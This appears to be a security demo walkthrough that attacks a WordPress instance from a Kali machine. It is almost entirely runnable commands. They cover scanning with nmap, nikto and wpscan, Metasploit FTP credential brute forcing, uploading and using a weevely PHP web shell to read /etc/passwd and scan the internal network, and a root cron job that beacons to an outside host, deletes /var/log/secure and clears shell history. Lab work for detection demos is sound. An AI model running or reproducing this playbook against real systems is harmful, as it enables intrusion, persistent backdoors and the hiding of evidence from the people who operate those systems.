 # Attack the WP Instance from the KALI System

1. SSH into the Kali Instance and run the from command line run the following chunks of code:

```
sudo su
export TARGET_IP=3.15.211.63 # <--Set this to the External IP Address of the WP Instance
```

Perform a nmap scan

```
nmap -Pn -A -T4 $TARGET_IP
```

Use nikto to scan the Web Server

```
nikto -h $TARGET_IP
```

Set the WPscan API token. You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up. I purposely didn't want to save it to github or have it show in the recording of the demo.

```
bash
export TOKEN=     #Set this variable to your API token
exit
```

Run wpscan on your wordpress instance

```
wpscan --url $TARGET_IP/wordpress --enumerate p --api-token $TOKEN
```

Fetch a password list and add the WordPress password to the bottom to allow the brute force attack to be successful. Use Metasploit to perform the brute forcing.

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
head -n 15 ftp-betterdefaultpasslist.txt > passwordlist.txt
echo "root:password123456" >> passwordlist.txt
sed -i 's/:/ /' passwordlist.txt
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set BRUTEFORCE_SPEED 3; \
  set STOP_ON_SUCCESS true; set RHOSTS $TARGET_IP; \
  set USERPASS_FILE passwordlist.txt; run; exit"
```

Set up a web shell with the compromised FTP credential

```
git clone https://github.com/epinna/weevely3.git
apt-get install -y python3 python3-pip curl
cd weevely3/
pip3 install -r requirements.txt --upgrade
./weevely.py generate mypassword maint.php
ftp -inv $TARGET_IP <<EOF
user root password123456
passive
cd /var/www/html/wordpress/wp-content/plugins/
put maint.php
bye
EOF
./weevely.py http://$TARGET_IP/wordpress/wp-content/plugins/maint.php mypassword
```

Run these commands on the webshell

```
whoami
uname -a
:audit_etcpasswd
cd /var/www/html
:file_download wordpress-4.4.tar.gz /tmp/wordpress-4.4.tar.gz
cd /var/www/html/wordpress/wp-content/plugins
:net_scan 172.31.44.1-172.31.44.10 255.255.255.0 1-666
```

SSH back into the WP instance and as root, make a bot that phones home:
```
sudo su
rm -f /var/www/html/wordpress/wp-content/plugins/phone
cp /usr/bin/nmap /var/www/html/wordpress/wp-content/plugins/phone
cat << "EOF" > /sbin/phonehome
HOMEBASE=$(curl -s http://www.malwaredomainlist.com/updatescsv.php | head -n 1 | cut -d"," -f3 | tr -d "\42")
/var/www/html/wordpress/wp-content/plugins/phone -sT $HOMEBASE -p 666 >> /var/www/html/wordpress/wp-content/plugins/instant-web-highlighter/logs.txt
rm -f /var/log/secure
history -c
EOF
chmod +x /sbin/phonehome
touch /var/spool/cron/root
echo "*/5 * * * * /sbin/phonehome > /dev/null" >> /var/spool/cron/root
history -c
```
